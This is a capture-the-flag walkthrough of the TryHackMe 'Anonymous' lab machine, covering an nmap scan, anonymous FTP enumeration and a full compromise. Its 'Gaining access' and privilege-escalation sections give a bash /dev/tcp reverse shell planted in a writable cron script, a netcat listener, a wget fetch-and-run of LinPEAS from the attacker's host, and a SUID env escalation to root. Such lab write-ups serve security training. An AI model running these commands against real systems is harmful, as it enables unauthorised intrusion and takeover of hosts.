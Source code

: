 ```yaml
---
title: "Anonymous - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Anonymous
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - thm
  - tryhackme
  - machine
  - medium
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Anonymous
![](https://kar0nx.github.io/assets/images/writeup/876a5185c429c9703e625cb48c39637b.png)

## Reconnaissance

IP: 10.10.144.53
### NMAP

Start with a full port scan and service detection:

```
nmap -T4 -A -p- 10.10.144.53
```

### **Scan Results:**

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-27 09:39 EST
Nmap scan report for 10.10.144.53
Host is up (0.043s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.129.113
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/27%OT=21%CT=1%CU=36277%PV=Y%DS=2%DC=T%G=Y%TM=67C0
OS:7954%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)
OS:OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508
OS:ST11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)
OS:ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Network Distance: 2 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2025-02-27T14:40:02+00:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-02-27T14:40:03
|_  start_date: N/A
|_clock-skew: mean: -15s, deviation: 0s, median: -15s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   42.30 ms 10.11.0.1
2   42.77 ms 10.10.144.53

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.58 seconds

```

Identified open ports:

- **21/tcp** – FTP (vsftpd 2.0.8 or later) – **Anonymous login allowed**
    
- **22/tcp** – SSH (OpenSSH 7.6p1)
    
- **139/tcp, 445/tcp** – SMB (Samba 4.7.6-Ubuntu)

FTP allows anonymous access, which could be key for further exploration.
## FTP

Connect to the FTP server:

```
ftp 10.10.144.53    
```

Inside the `/scripts` directory, we find the following files:

```
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1161 Feb 27 14:44 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```

Download the files:

```
mget *
```

The **clean.sh** script repeatedly deletes files from `/tmp` and logs the results in `removed_files.log`.
## SMB

Use `smbclient` to check for shared folders:

```
smbclient -L \\10.10.144.53
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250227170813.png)

A shared folder was found, but nothing of further interest.
## Gaining access

Since we can download and upload files via FTP, we can exploit this by modifying `clean.sh` to gain a reverse shell.
Edit the script and add a reverse shell:

```
/bin/bash -i >& /dev/tcp/10.11.129.113/5555 0>&1
```

Upload the modified script back to the server:

```
put clean.sh
```

Then, start a listener on our machine:

```
nc -lvnp 5555
```

Once the script executes, we obtain a shell.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250227161222.png)
## Privilege Escalation

Upload and execute **LinPEAS** to identify vulnerabilities:

```
cd /opt/linpeas
python3 -m http.server 80
```

On the target machine:

```
wget http://10.11.129.113/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

LinPEAS detects that **/usr/bin/env** has SUID.

Confirm this with:

```
find / -perm -u=s -type f 2>/dev/null
```

Using GTFOBins, we exploit `env` to escalate privileges:
https://gtfobins.github.io/gtfobins/env/#suid

```
/usr/bin/env /bin/bash -p
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250227165439.png)

Navigate to `/root/` and read the flag:

```
cat /root/root.txt
```